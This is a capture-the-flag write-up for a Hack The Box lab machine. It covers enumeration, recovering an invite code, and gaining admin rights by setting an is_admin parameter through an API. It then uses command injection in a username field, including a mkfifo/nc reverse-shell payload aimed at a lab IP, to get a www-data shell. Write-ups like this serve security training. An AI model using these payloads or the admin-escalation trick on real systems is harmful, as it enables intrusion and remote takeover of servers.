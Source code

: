
# [Enumeration]()

Scanning open ports of given IP - `10.10.11.221` @ `2million.htb`

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ nmap 2million.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-01 13:15 IST
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.47s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Visiting the website.

![](Pasted%20image%2020241201131826.png)
![](Pasted%20image%2020241201131836.png)

Found below interesting JavaScript code at <http://2million.htb/js/inviteapi.min.js>

```javascript
eval(function(p, a, c, k, e, d) {
    e = function(c) {
        return c.toString(36)
    };
    if (!''.replace(/^/, String)) {
        while (c--) {
            d[c.toString(a)] = k[c] || c.toString(a)
        }
        k = [function(e) {
            return d[e]
        }];
        e = function() {
            return '\\w+'
        };
        c = 1
    };
    while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
        }
    }
    return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
```

Calling `makeInviteCode` function gives below response.

![](Pasted%20image%2020241201132803.png)
```json
{
	0: 200
	data: Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }
	hint: "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
	success: 1
}
```

Data contains encrypted message with `rot13`.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ rot13 Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Visiting <http://2million.htb/api/v1/invite/generate>

![](Pasted%20image%2020241201133317.png)

Sending `post` request from Firefox.

![](Pasted%20image%2020241201133444.png)
![](Pasted%20image%2020241201133505.png)
![](Pasted%20image%2020241201133533.png)

Found invite code. However this is encoded to base64. 

```json
{
	"0":200,
	"success":1,
	"data":{"code":"TUkzTVMtT05COEotSlBJWEgtNzNWV1I=","format":"encoded"}
}
```

Decoding the code `TUkzTVMtT05COEotSlBJWEgtNzNWV1I=` gives actual code.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ echo TUkzTVMtT05COEotSlBJWEgtNzNWV1I= | base64 -d
MI3MS-ONB8J-JPIXH-73VWR
```

Registering and logging in with the invite code `MI3MS-ONB8J-JPIXH-73VWR`

![](Pasted%20image%2020241201133927.png)
![](Pasted%20image%2020241201134020.png)

![](Pasted%20image%2020241201134041.png)

Exploration helped find the <http://2million.htb/api> endpoint is publicly exposed.

![](Pasted%20image%2020241201135737.png)

This suggest to visit there might be `/api/v1` endpoint. Using Burp-suite to intercept and repeat the request.

![](Pasted%20image%2020241201140017.png)
![](Pasted%20image%2020241201140057.png)

Below section looks interesting. 

```json
"admin":{"GET":{"\/api\/v1\/admin\/auth":"Check if user is admin"},"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}
```

Sending PUT request to `/api/v1/admin/settings/update` to update user settings

![](Pasted%20image%2020241201140405.png)

Need to update content type. In this case it's more likely `application/json`.

![](Pasted%20image%2020241201140520.png)

Need to update missing parameter `email`

![](Pasted%20image%2020241201140620.png)

Need to update missing parameter `is_admin` and updating this parameter to allow admin access.

![](Pasted%20image%2020241201140707.png)
![](Pasted%20image%2020241201140725.png)

Checking it we are now admin or not. Below response suggest that we are indeed admin.

![](Pasted%20image%2020241201141100.png)

Now that we are admin, we can access `/api/v1/admin/vpn/generate` to generate user specific vpn file.

![](Pasted%20image%2020241201142411.png)
![](Pasted%20image%2020241201143529.png)
![](Pasted%20image%2020241201143613.png)

Below response shows the ovpn file. This is using `cat` command to view the file. We can exploit this to perform `command injection` exploit.

![](Pasted%20image%2020241201143656.png)

# Exploitation

Inserting `a; ls #` payload to `username` parameter to check command injection exploit possibility. Below response shows that the server is vulnerable to command injection.

![](Pasted%20image%2020241201143342.png)

By exploiting command injection we can achieve remote code execution using below payload.

```
{
	"username":"a; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.15 9999 >/tmp/f #"
}
```

![](Pasted%20image%2020241201155429.png)

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.221] 51692
bash: cannot set terminal process group (1171): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$ 
```

